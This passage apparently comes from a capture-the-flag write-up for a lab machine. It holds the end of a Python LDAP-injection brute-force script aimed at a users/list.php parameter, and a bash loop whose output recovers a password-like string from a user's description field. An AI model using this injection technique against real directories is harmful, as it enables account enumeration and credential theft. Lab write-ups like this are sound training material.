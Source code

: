 ```python
                        char = '*' + char
                        url = f"http://internal.analysis.htb/users/list.php?name={username})({field}%3d{result}{char}*"
                        r = await fetch(session, url)
                        if "CONTACT_" not in r and "<strong>" in r:
                            result += char
                            end_for_loop = True
                            break
                if end_for_loop:
                    break
                    
            if end_while_loop:
                break
if __name__ == '__main__':
    
    if len(sys.argv) < 2:
        print(f"""[i] Usage: python3 {sys.argv[0]} [usernameEnum/bruteFieldContent/bruteFields]
                - usernameEnum: enumerates usernames of the machine
                - bruteFieldContent [field] [username]: specify the field to brute for a specific field and username
                - bruteFields: brute all valid fields.
              """)
        sys.exit(1)
    else:
        if sys.argv[1] == "usernameEnum":
            asyncio.run(bruteUsernames())
        elif sys.argv[1] == "bruteFieldContent":
            if not sys.argv[2] or not sys.argv[3]:
                print("Please specify field and username")
            field = sys.argv[2]
            username = sys.argv[3]
            asyncio.run(bruteFieldContent(field,username))
        elif sys.argv[1] == "bruteFields":
            asyncio.run(bruteFields())
        else:
            print("Invalid value for arguments")
```

Now execute this to loop through all usernames and see their description:

```bash
❯ usernames=(amanson badam jangel lzen technician);for username in ${usernames[@]};do python3 ldap_injection.py bruteFieldContent description $username; done
[O] Brute forcing field 'description' of username 'amanson': 90/90
[-] Content of description of amanson
[v] Brute forcing field 'description' of username 'badam': 90/90
[d] Content of description of badam
[-] Brute forcing field 'description' of username 'jangel': 90/90
[b] Content of description of jangel
[↙] Brute forcing field 'description' of username 'lzen': 90/90
[ ] Content of description of lzen
[/.......] Brute forcing field 'description' of username 'technician': 90/90
[.] Content of description of technician: 97NTtl*4QP96Bv
```
